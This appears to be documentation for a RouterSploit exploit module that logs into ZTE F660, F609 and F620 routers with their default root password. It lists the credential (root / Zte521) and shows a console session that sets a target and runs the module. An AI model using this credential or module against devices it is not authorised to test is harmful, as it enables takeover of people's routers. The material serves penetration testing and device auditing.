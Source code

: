 # ZTE F6XX Default root

## Description
Module exploits ZTE F6XX default root password. If the target is possible to authentiate to the device.

## Authors
* devilscream # vulnerability discovery & routersploit module

## References
* [http://www.ironbugs.com/2016/02/hack-and-patch-your-zte-f660-routers.html](http://www.ironbugs.com/2016/02/hack-and-patch-your-zte-f660-routers.html)

## Vulnerable devices
* ZTE ZXA10 F660
* ZTE ZXA10 F609
* ZTE ZXA10 F620

## Usage
```
rsf > use exploits/zte/f6xx_default_root
rsf (ZTE F6XX Default root) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. 192.168.1.1


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     root                 Username to authenticate with
   password     Zte521               Password to authenticate with


rsf (ZTE F6XX Default root) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (ZTE F6XX Default root) > run
[*] Running module...
```
